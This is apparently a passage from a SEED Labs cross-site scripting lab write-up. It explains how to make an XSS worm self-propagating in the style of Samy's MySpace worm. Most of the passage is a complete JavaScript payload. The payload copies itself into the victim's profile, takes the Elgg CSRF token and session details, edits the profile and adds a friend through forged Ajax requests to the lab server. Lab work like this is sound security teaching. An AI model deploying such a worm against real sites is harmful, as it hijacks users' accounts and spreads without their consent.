 In order to make this attack self-propagate and achieve what Samy did to MySpace, we must find a way to copy the malicious code to the victim's About Me field. This way, even if other users visit the victim's profile and not Samy's, they will also get infected and start to spread the XSS Worm.

To achieve this, we resorted to the DOM approach to copy the malicious code, namely:

```js
<script type="text/javascript" id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";

  //Put it all together with URI encoding
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  //Set description field and access level
  var desc = "&description=We are spreading!” + wormCode;
  desc += "&accesslevel[description]=2";

  //Get the name, guid, timestamp, and token
  var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
  var ts    = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
  var name  = "&name=" + elgg.session.user.name;
  var guid  = "&guid=" + elgg.session.user.guid;

  //Set the URL
  var sendposturl = "http://www.seed-server.com/action/profile/edit";
  var sendgeturl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  var content = token + ts + name + desc + guid;

  //Construct and send the Ajax request
  if (elgg.session.user.guid != 59){
    //modify profile
    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendposturl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
  }

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendgeturl, true);
  Ajax.send();
 }
 </script>
```
